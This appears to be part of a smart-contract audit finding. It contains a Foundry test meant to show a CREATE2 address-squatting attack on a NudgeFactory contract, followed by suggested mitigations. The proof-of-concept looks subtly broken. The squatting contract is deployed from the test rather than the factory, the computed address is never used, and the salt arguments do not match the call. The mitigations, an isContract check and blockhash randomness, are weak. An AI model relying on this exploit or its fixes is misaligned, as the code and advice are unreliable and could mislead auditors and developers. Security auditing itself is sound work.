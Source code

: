 **Foundry Test:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;
import "forge-std/Test.sol";
import "src/NudgeFactory.sol";
import "src/NudgeCampaign.sol";

contract Create2AttackTest is Test {
    NudgeFactory factory;
    address attacker;

    function setUp() public {
        factory = new NudgeFactory();
        attacker = vm.addr(1);
    }

    function testCreate2Attack() public {
        bytes32 salt = keccak256(abi.encode(3600, address(0x123), address(0x456), 1000, attacker, block.timestamp, 500, address(0x789), 1234));
        address predicted = computeCreate2Address(salt, type(NudgeCampaign).creationCode, address(factory));
        
        vm.prank(attacker);
        new MaliciousContract{salt: salt}();
        
        vm.expectRevert();
        factory.deployAndFundCampaign(3600, address(0x123), address(0x456), 1000, attacker, block.timestamp, address(0x789), 1 ether, 1234);
    }

    function computeCreate2Address(bytes32 salt, bytes memory bytecode, address deployer) internal pure returns (address) {
        return address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xff), deployer, salt, keccak256(bytecode))))));
    }
}

contract MaliciousContract {
    receive() external payable {}
}
```

###  Recommended Mitigations  

```md
1. Use non-predictable salt:
   - Include randomness like blockhash or a nonce.
2. Check if address is already occupied:
   - Use `isContract()` to validate before deployment.

   require(!isContract(predictedAddress), "Address already occupied");
   

3. Deploy first, fund later:
   - Ensure contract was created successfully before transferring funds.
```
---
